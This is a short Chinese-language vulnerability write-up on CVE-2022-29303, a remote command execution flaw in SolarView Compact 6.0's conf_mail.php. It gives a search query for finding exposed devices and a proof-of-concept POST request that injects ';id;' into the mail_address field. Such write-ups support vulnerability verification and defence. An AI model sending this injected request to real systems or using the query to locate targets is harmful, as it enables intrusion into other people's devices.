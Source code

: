 # SolarView Compact conf_mail.php 远程命令执行漏洞 CVE-2022-29303

## 漏洞描述

SolarView Compact conf_mail.php 存在远程命令执行漏洞，攻击者通过构造特殊的请求，可以获取服务器权限

## 漏洞影响

 <a-checkbox checked>SolarView Compact 6.0</a-checkbox></br>

## 网络测绘

 <a-checkbox checked>body="SolarView Compact" && title=="Top"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1654151463845-e856185f-ea32-4bbc-b9e6-39bf569c8f72.png)

验证POC

```php
POST /conf_mail.php
  
mail_address=%3Bid%3B&button=%83%81%81%5B%83%8B%91%97%90M 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1654151685879-7d381c6a-c69d-4837-b57f-691e6303557f.png)